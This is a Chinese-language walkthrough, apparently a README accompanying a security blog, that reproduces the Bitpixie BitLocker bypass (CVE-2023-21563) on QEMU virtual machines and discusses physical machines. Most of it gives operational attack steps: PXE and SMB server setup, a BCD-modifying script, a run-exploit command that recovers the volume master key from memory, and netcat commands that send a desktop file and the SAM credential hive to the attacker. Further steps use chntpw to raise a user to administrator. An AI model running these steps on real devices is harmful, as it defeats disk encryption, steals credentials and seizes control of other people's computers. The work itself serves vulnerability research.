# bitpixie

[完整 blog 请点击这里](https://lr2006-robot.github.io/HardwareSecurityBlog.github.io/2026/05/14/%E5%9F%BA%E4%BA%8E%20CVE-2023-21563%20%E6%BC%8F%E6%B4%9E%E7%A0%B4%E8%A7%A3%20BitLocker%20%E5%8A%A0%E5%AF%86/)

## 主要参考

- [syss的博客文章](https://blog.syss.com/posts/bitpixie/)
- [Syss 的 Github 仓库](https://github.com/andigandhi/bitpixie)

## Bitpixie 破解 Bitlocker 实现

虚拟机复现。本机（攻击机）使用 Ubuntu 22.04.5 LTS 系统，受害机分别为 Windows 10 21H2 19041.1  和 Windows 11 21H2 22000.318，均启用了 BitLocker 加密。使用 QEMU 作为虚拟机管理器，使用 virt-manager 进行管理，这里我使用虚拟机 Windows 11 进行操作。

我的[复现相关文件](https://github.com/LR2006-Robot/bitpixie)来源于 [Syss 的 Github 仓库](https://github.com/andigandhi/bitpixie)，在其基础上进行工具的版本适配以及一些意外情况的处理。可以做到下载直接使用，或者根据需要进行修改。虚拟机镜像文件来自于 [UUP Dump](https://uupdump.net/)，上面提供了各种 Windows 版本下载，下载后执行 cmd 文件或者 sh 文件即可以得到 ISO 镜像文件。

### 受害虚拟机环境搭建

对于 QEMU 和 virt-manager 的安装和使用，这里不再赘述，不过我们新下载的用户在 virt-manager 中通过 "Edit -> Preferences -> General -> Enable XML editing" 来启用 XML 编辑功能，这样我们就可以直接编辑虚拟机的 XML 配置文件了。

创建虚拟机时，选择 "Local install media (ISO image or CDROM)"，并选择之前下载的 Windows 11 ISO 镜像文件。分配适当的资源（CPU、内存、磁盘空间等），并最后一定要选择 "Customize configuration before install"，这样我们就可以在安装之前编辑配置文件了。在这里，可能在识别自动系统时有问题，这个时候我们可以自己动手选择 "Microsoft Windows 10/11"。

现在我们开始进行配置，最重要的一点（因为这个不能在后面改，其他的可以创建后重复修改），在 Overview 标签页中，选择 Firmware 为 "UEFI x86_64: /usr/share/OVMF/OVMF_CODE_4M.ms.fd"。如果没有选择这个的话直接删掉虚拟机重新布置，反正也不麻烦。


然后进入 "Boot Options" 标签页，确保 "SATA CDROM 1" 被勾选，否则我们无法安装系统，您可以将 "SATA CDROM 1" 移动到列表顶部，这样启动时会简单一些。这个时候就可以直接创建了，我们安装后系统后再进行统一的其余配置修改。

看见 "Press any key to boot from CD or DVD..." 了么？按任意键进入安装界面，按照提示完成安装。如果一不小心进入了一下页面，不用惊慌选到 "Boot Manager" ，随后选择 "UEFI: QEMU DVD-ROM" 就可以回到原来的界面按任意键启动了。


接下来安装系统，直接勾选没有产品密钥，安装专业版即可。后面就是注册账户什么乱七八糟的，建议直接脱机启动，减少麻烦。如果没有这个选项的话，使用 `Shift + F10` 打开命令提示符，输入 `OOBE\BYPASSNRO` 来启用脱机账户创建选项。

正常进来以后，可以在终端中输入 `msinfo32` 查看系统信息（物理机检查是否为 UEFI），然后直接关机，然后来改配置：
1. TPM 在 "Add Hardware" 中添加 "TPM 2.0"。如果没有 TPM 就 "Add Hardware" 中添加 TPM 就可以了。
2. 在 "SATA CDROM 1" 中，将 ISO 镜像文件替换为我们之前准备好的 [virtio 镜像文件](https://fedorapeople.org/groups/virt/virtio-win/direct-downloads/archive-virtio/)。
3. 进入 "Boot Options" 中，将 "NIC" 也勾选上。
4. 在 "NIC" 中将 "Device model" 改为 "virtio",并进入 XML 中加入 `<rom enabled="no"/>` 来启用网络引导，以下是示例：
```xml
<interface type="network">
  <mac address="52:54:00:2f:53:4e"/>
  <source network="default"/>
  <model type="virtio"/>
  <boot order="2"/>
  <rom enabled="no"/>
  <address type="pci" domain="0x0000" bus="0x01" slot="0x00" function="0x0"/>
</interface>
```

选用 virtio 的网络配置，主要是其网络硬件 “半虚拟化” 特性，直接和主机通信。同时，关闭网络引导 ROM 是为了直接让 UEFI 固件通过内置的 PXE 协议和 virtio 网卡通信避免在启动过程中出现不必要的干扰，确保我们能够顺利地进入系统并进行后续的配置和测试。

进入虚拟机，用 CD 驱动器安装 virtio 驱动，自动就帮我们配置好了，可以简单测试一下网络是否正常。随后，进行 Bitlocker 加密，可以在桌面新建一个 flag 文件，以便后续验证。

如果使用物理机进行复现的话，只需要用网线连接攻击机和受害机，不用配置 virtio，其他的配置基本上是一样的，唯一需要注意的是物理机的网络接口可能会有多个，需要选择正确的接口进行配置。

对于受害机的配置就完成了，然后直接关机，接下来我们就可以按照前面漏洞利用原理中制定的步骤来进行漏洞利用了。

### 攻击机配置与 Bitpixie 攻击

这里我们给出全流程攻击的参考图，可以先大致看一下流程，后面我们会逐步进行实现：


本机（攻击机）上必须安装以下软件包：
- **dnsmasq**
- **impacket-smbserver**
- **hivexregedit**

在 Ubuntu 或者 Debian 上，可以使用以下命令安装：
```bash
sudo apt install dnsmasq libwin-hivex-perl python3-impacket
```

在项目给的文件中，执行 `build.sh` 文件生成 `bitpixie-initramfs`。如果要自行修改适配本地的环境，可以在 `build.sh` 中修改，配置自己想要的工具以及版本文件，然后执行重新生成 `bitpixie-initramfs`。

然后，在终端输入 `ifconfig` 查询我们本机（攻击机）的虚拟网关，下面以我本机的为例子：
```
virbr0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.123.1  netmask 255.255.255.0  broadcast 192.168.123.255
        ether 52:54:00:23:11:39  txqueuelen 1000  (Ethernet)
        RX packets 46749  bytes 4384179 (4.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 67170  bytes 414459630 (414.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

使用以下命令启动用于 PXE 启动过程的 TFTP 服务器以及用于传输修改 BCD 文件的脚本的 SMB 服务器，填入我们刚刚查询的内容，我的是 `virbr0`。
```shell
# Start the TFTP and the DHCP server
./start-server.sh pxe <interface>
```
```shell
# Start the SMB server for the transfer of the BCD file
./start-server.sh smb <interface>
```

主要问题在于该 `bcdedit` 命令只能以本地管理员身份运行。然而，由于 BCD 文件位于驱动器的未加密 EFI 分区上，因此有多种方法可以提取它。一种方法是物理移除硬盘驱动器，然后在另一台系统上提取 BCD 文件。不过，更简单、侵入性更小的方法是启动到高级启动选项。在大多数系统中，`Shift + 重启` 即可完成此操作。即使在登录屏幕上，此方法也有效。现在可以在 “疑难解答 -> 高级选项 -> 命令提示符” 下输入命令行。在此过程中，很可能会显示 BitLocker 恢复屏幕，可以使用 “跳过此驱动器” 按钮跳过此屏幕。

现在我们在终端先输入 `ipconfig` 看一下我们的网络情况，如果有显示 IP 为 10.13.37.xxx ，则可以直接跳过下面的步骤了，如果没有显示，则需要手动配置一下网络，首先查看可以正确的路径，查看是哪个盘以及选定自己虚拟机版本：
```shell
dir D:\NetKVM\w11\amd64
dir E:\NetKVM\w11\amd64
```

随后根据结果输入以下命令配置网络：
```shell
drvload D:\viostor\w11\amd64\viostor.inf
drvload D:\NetKVM\w11\amd64\netkvm.inf
ipconfig
```


出现 IP 地址后，就可以进行 SMB 传输了，输入以下命令将修改后的 BCD 文件将直接移动到攻击者机器上，这样就可以直接开始执行实际的 bitpixie 攻击：
```
wpeutil initializenetwork
net use S: \\10.13.37.100\smb
cd %TEMP%
copy S:\create-bcd.bat .
.\create-bcd.bat
```


接下来，我们回到页面，通过 "使用设备 -> PXE 启动" 来启动到降级后的引导加载程序，加载修改后的 BCD，解封磁盘，内核启动失败，并执行 `pxesoftreboot`。如果没有找到 PXE 启动，可以退出查看虚拟机配置，“Boot Options” 中的 NIC 选项是否被勾选。由于我们控制了 PXE 服务器，因此我们可以进入我们之前准备好的 Debian 系统。

随后，我们输入 `root` 进入，并使用 `su` 命令，然后对分区执行我们的脚本即可：
```bash
run-exploit /dev/sda3
```


如果一切顺利，会直接显示符合的 VMK 数据，同时我们在当前目录下看到一个 `vmk.dat` 的文件，这就是我们从内存中提取的 VMK 文件了。加密盘的内容挂载到 `/mnt` 目录下了，我们可以直接进入查看之前创建的 flag 文件了。


到此为止，我们就成功地利用了 Bitpixie 漏洞，提取了 BitLocker 加密磁盘的 VMK 文件，并成功访问了加密磁盘中的内容了。

当然，也会出现一些状况，例如没有找到 VMK 文件，这一种情况建议重新尝试一次，因为 VMK 可能没有被正确地保留在内存中，或者没有正确地扫描到，也有可能是因为 BCD 的版本对不上导致的。还有一种情况是找到了 VMK 文件，但是无法挂载加密盘，这可能是因为 VMK 文件不完整或者损坏了，一定要找到有效标识 `03 20 01 00`，可以尝试重新提取一次 VMK 文件，或者检查一下使用的工具是否支持当前系统的 BitLocker 版本（dislcker 版本固定了一个稳定老版本，可以重新下一个新的版本）。

到此为止，我们访问需要的文件了，但是我们还有没将电脑原来的文件导出，这里我们可以将所需要的数据直接通过网络传输到攻击机上，这里我选择直接通过网络传输到攻击机上，我的建议是传输有用的文件，就那些系统文件就没有必要了，这里我以桌面的 flag 文件和系统的 SAM 文件为例。

对于传输小文件，在攻击机上开启连接端口就行：
```bash
nc -lvp 4444 > flag.txt
nc -lvp 4445 -q 1 > SAM
```
在受害机上输入以下命令将文件传输到攻击机上：
```bash
dd if=/mnt/Users/Dorange/Desktop/flag.txt | nc <IP> 4444
dd if=/mnt/Windows/System32/config/SAM | nc <IP> 4445
```
如果是传输文件夹的话就要先打包一下了，然后再传输了：
```bash
tar -czvf important_files.tar.gz /mnt/Users/Dorange/Desktop/important_files
nc -lvp 4446 > important_files.tar.gz
dd if=important_files.tar.gz | nc <IP> 4446
```

虽然我们已经拿到了加密盘的访问权限了，但我们还没有完全控制受害者电脑。这个时候，我们可以使用 `chntpw` 这个工具来修改系统中的用户账户密码，从而获取管理员权限。当然我更推荐的是制造一个低权限用户，然后提权到管理员，这样更加稳定一些。

这里我将一个低权限用户 Dorange 提权至管理员，首先我们需要使用 `chntpw` 来修改用户账户的权限，以下是示例命令：
```bash
chntpw -u Dorange /mnt/Windows/System32/config/SAM
```
当然也可以先用命令进入，选择查看有什么用户：
```bash
chntpw - /mnt/Windows/System32/config/SAM
```


随后直接根据指引修改权限就可以了，可以选择直接修改权限，也可以将用户加入管理员组，反正差不了多少。这里推荐直接加入管理员组，这样更稳定一些，修改完成后可以使用命令 `chntpw -i SAM` 查看权限。


注意，必须卸载 BitLocker 分区，以确保所有更改都写入磁盘，然后才能重启系统。最后直接进入查询我们的改造是否成功了，在终端输入 `net localgroup Administrators` 来查看管理员组的成员，看看我们之前添加的用户 Dorange 是否在其中了。


现在我们成功在虚拟机上实现了基于 CVE-2023-21563 漏洞的 BitLocker 破解，提取了 VMK 文件，并成功访问了加密磁盘中的内容并导出重要文件，同时还成功地将一个低权限用户提升为管理员权限了。

### 物理机实现

物理机的配置就没有虚拟机这么友好了，基本上虚拟机按照我们前面的步骤是可以直接使用的，对硬件设施没有太多的要求，物理机的话需要一步步检查硬件配置。注意大部分电脑默认的是家庭版，但是好像只有专业版才可以使用 Bitlocker 功能，所以物理机可能还要进行一次升级。

在我们团队进行实验时，发现 Windows 的新版本 25H2 几乎无法实现。首先在高级选项中进入命令行时，直接无法跳过输入 Bitlocker 恢复密钥。哪怕真的进去了，我们进行 PXE 软启动时，也必须要输入 Bitlocker 恢复密钥才可以使用引导。

而对于物理机的硬件初始要求也比较高，在一些轻薄笔记本和老款游戏本的硬件不支持 PXE 启动。这里给出的是一款小米的轻薄笔记本，其硬件不支持网络启动（正常支持这里会有 Network Boot 这个选项）：


并且对于国内常见品牌华硕笔记本电脑，我们发现哪怕在 Windows 版本比较低的情况下，依然会在 PXE 启动失败后卡死在我们内核引导的过程中（怀疑是厂商硬件进行一定的限制）。

首先需要检查受害机是否支持 UEFI 启动，可以通过在 Windows 中输入 `msinfo32` 来查看系统信息，如果在系统摘要中看到 "BIOS 模式" 是 "UEFI"，则说明支持 UEFI 启动了。

最重要的是我们要检查我们的物理机是否已经将修复补丁打上了，在管理员终端里面输入 `Get-HotFix` 来查看系统补丁情况，如果已经打上了 KB5025885 或者更进一步的补丁了，那么就无法利用这个漏洞了。同时我们要查看我们的证书是否为旧版（听说微软在 2026 年发了新证书，不知道是不是真的）。
```powershell
Get-HotFix -Id KB5025885
certutil -store root | findstr "Microsoft Windows Production PCA 2011"
```


关于 TPM 的配置，在 Windows 中搜索设备管理器，进入 "安全设备" 中查看是否有 TPM 设备并且版本是否为 2.0，如果没有的话需要进入 BIOS 中启用 TPM 功能。随后在管理员终端中输入 `manage-bde -protectors -get C:` 来查看 BitLocker 的加密状态，如果发现 TPM 的 PCR 不是 7 和 11 的话，我们需要进行手动的调整（似乎当前流行的为默认 0, 2, 4, 11）。 

首先，"Win + R" 输入 `gpedit.msc` 打开本地组策略编辑器，按照 “计算机配置 -> 管理模板 -> Windows 组件 -> BitLocker 驱动器加密 -> 操作系统驱动器” 的路径进入，找到 “为本地 UEFI 固件配置配置 TPM 平台验证配置文件” 选项，进入将其设置为 "已启用"，并且在选项中选择 "PCR 7 和 11"，确认后退出。
